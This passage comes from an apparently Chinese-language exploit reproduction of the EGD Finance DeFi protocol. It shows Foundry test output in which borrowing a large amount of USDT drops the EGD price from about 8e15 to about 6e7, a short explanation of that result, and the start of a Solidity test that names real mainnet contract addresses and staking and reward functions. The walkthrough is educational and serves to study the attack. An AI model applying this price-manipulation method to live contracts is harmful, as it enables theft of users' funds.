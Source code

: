 ```solidity

        require(success);
    }
}

```

输出:

```
~/Desktop/EGDFinanceDemo main !2 9 ❯ forge test --match-contract PriceManipulateTest  
[⠑] Compiling...
[⠒] Compiling 1 files with 0.8.17
[⠆] Solc 0.8.17 finished in 2.36s
Compiler run successful

Running 1 test for test/PriceManipulate.t.sol:PriceManipulateTest
[PASS] testPrice() (gas: 90127)
Logs:
  edg price before: 8093644493314726
  edg price after (i borrowed huge USDT out): 60702333
  edg price after (i return the borrowed USDT back): 8498326714945346
```

可以看到在我借出大量USDT后 和 归还借出的USDT前, EDG的价格由 8093644493314726 变成了 60702333,

归还USDT后价格又恢复了.



### 质押USDT获取EGD奖励

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "forge-std/test.sol";

address constant EGD_Finance = 0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370;
address constant usdt = 0x55d398326f99059fF775485246999027B3197955;
address constant egd = 0x202b233735bF743FA31abb8f71e641970161bF98;
uint256 constant blockheight = 20245522;

interface IEGD_Finance {
    function bond(address invitor) external;

    function stake(uint256 amount) external;

    function calculateAll(address addr) external view returns (uint256);

    function claimAllReward() external;

    function getEGDPrice() external view returns (uint256);

    function userInfo(
        address
    )
        external
        view
        returns (
            uint256 totalAmount,
            uint256 totalClaimed,
            address invitor,
            bool isRefer,
            uint256 refer,
```